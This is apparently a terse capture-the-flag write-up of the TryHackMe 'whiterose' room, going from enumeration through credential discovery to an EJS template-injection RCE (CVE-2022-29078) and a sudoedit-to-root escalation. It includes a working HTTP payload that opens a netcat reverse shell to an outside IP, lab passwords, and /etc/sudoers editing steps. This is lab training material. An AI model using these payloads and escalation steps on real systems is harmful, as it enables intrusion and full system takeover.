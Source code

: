 <code>
https://tryhackme.com/r/room/whiterose

## Enumeration
┌──(kali㉿kali)-[~/Documents/THM/THM_whiterose]
└─$ nmap -A -Pn -p80 cyprusbank.thm 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 05:30 EST
Nmap scan report for cyprusbank.thm (10.10.211.123)
Host is up (0.035s latency).
rDNS record for 10.10.211.123: whiterose.thm

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

┌──(kali㉿kali)-[~/Documents/THM/THM_whiterose]
└─$ ffuf -w ../../www/wordlists/Subdomain.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1 
found admin.cyprusbank.thm


### use crentials
Olivia Cortez:olivi8


http://admin.cyprusbank.thm/messages/?c=0

Gayle Bev: Of course! My password is 'p~]P@5!6;rs558:q'



[ CVE-2022–29078 ] → EJS Server Side Template Injection RCE → PoC ( Link to the Writeup Below )


### Get reverse shell

POST /settings HTTP/1.1
Host: admin.cyprusbank.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 199
Origin: http://admin.cyprusbank.thm
Connection: keep-alive
Referer: http://admin.cyprusbank.thm/settings
Cookie: connect.sid=s%3Ad_bGl7Fk6eaYR2o2ysYtiIvEecJP7U7b.E9%2BCA%2Fmz0yjQrd2hHxoKSw1cxNreXYM0k%2BmuDqIVvEY
Upgrade-Insecure-Requests: 1

name=xx&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('busybox nc  10.9.1.144 4445 -e sh');



╔══════════╣ Analyzing Env Files (limit 70)
-rw-rw-r-- 1 web web 59 Jul 16  2023 /home/web/app/.env                                                             
MONGO=mongodb://localhost
SECRET=secureappsecret
PORT=8080


╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                    
Matching Defaults entries for web on cyprusbank:                                                                    
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

### USE THIS

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/?source=post_page-----972ee9129fe2--------------------------------


export EDITOR="vim -- /etc/sudoers"
sudoedit /opt/example.txt
Copied!
In vim editor, add the following line in /etc/sudoers.
Assume the current username is “john”

web ALL=(ALL:ALL) ALL
Copied!
After that, we can escalate to root privilege.

sudo su root

  
<\code>

